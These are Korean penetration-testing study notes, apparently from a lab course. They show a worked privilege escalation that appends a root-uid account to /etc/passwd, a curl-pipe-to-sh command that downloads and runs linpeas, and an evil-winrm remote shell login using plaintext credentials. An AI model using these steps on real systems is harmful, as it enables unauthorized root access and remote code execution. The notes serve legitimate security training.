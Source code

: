 # openssl

/etc/passwd 파일에 암호 해쉬를 추가하고 싶을 때 해쉬화 할 수 있다.

```bash
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@debian-privesc:~$ su root2
Password: w00t

root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
```

# linpeas

linux에 처음 침입했을 때 자동으로 취약점을 검색해주는 툴

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)깃허브 페이지.

# mousepad, leafpad

메모장 같은 텍스트 편집 툴.

GUI라서 다루기 쉽고 익숙하다.

# Tempail

일회용 이메일을 만들고 사용할 때 유용한 서비스

[웹페이지](https://tempail.com/)

# evil-winrm

너무 자주 쓰는 윈도우 접속 툴.

접속하려는 유저가 windows remote management 그룹에 속해있어야 한다.

```
┌──(kali㉿kali)-[~/offsec]
└─$  evil-winrm -i 192.168.125.220 -u hong -p "hong"

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hong\Documents> cd /
*Evil-WinRM* PS C:\> ls
```
